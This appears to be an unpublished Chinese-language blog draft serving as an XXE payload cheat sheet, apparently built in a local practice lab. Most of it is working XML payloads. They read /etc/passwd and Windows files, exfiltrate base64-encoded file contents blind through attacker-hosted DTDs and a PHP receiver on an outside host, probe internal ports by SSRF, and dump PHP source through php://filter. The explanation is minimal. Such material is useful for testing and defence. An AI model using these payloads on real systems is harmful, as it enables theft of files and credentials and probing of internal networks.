 ```yaml
---
layout: post
title: XXE
subtitle: XXE
date: 2023-08-06 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

## 1. XXE 介绍

[【知识科普】今天聊聊XML这种文件格式_xml文件-CSDN博客](https://blog.csdn.net/wendao76/article/details/147198875)


## 2. XXE payload

### 2.1. 有回显—读取文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
        <!ENTITY content SYSTEM "file:///etc/passwd">
        <!--<!ENTITY content SYSTEM "file:///c://Windows//System32//test.txt">-->
]>
<x>&content;</x>
```

可通过读取不存在文件，根据报错获取当前路径

![image.png](https://img.ghostliner.top/GRHAb7.png)

可知当前路径：`C:\Software\phpstudy_pro\WWW\xxe-lab\php_xxe\`

### 2.2. 无回显-读取文件

#### 2.2.1. 方法一

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.30.130:8081/test.dtd">
        %dtd;
        %send;
]>
```

test.dtd
```xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.30.130:8081/?data=%file;'>">
%payload;
```

#### 2.2.2. 方法二

hack服务器创建 `1.php`

```php
<?php file_put_contents("1.txt", $_GET['file']); ?>
```

hack 服务器创建 `evil.xml`

```xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.163.130:8000/1.php?content=%file;'>"> %payload;
```

`1.php`、`evil.xml` 目录下开启 http 服务

```shell
python -m http.server -b 192.168.163.130 8000
```

bp抓包修改

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C://windows//win.ini">
	<!ENTITY % dtd SYSTEM "http://192.168.163.130:8000/evil.xml">
	%dtd;
	%send;
]>
```

2、**SSRF—探测端口：**

适用于有回显和blind xxe，也是外部一般实体：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

    <!ENTITY content SYSTEM "http://127.0.0.1:3306">]>

<name>&content;</name>
```

根据响应时间判断是否存活

3、**如果是php的话，可以用php的filter协议直接读出文件**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY>
<!ENTITY goodies SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]> 
<creds>&goodies;</creds>
```
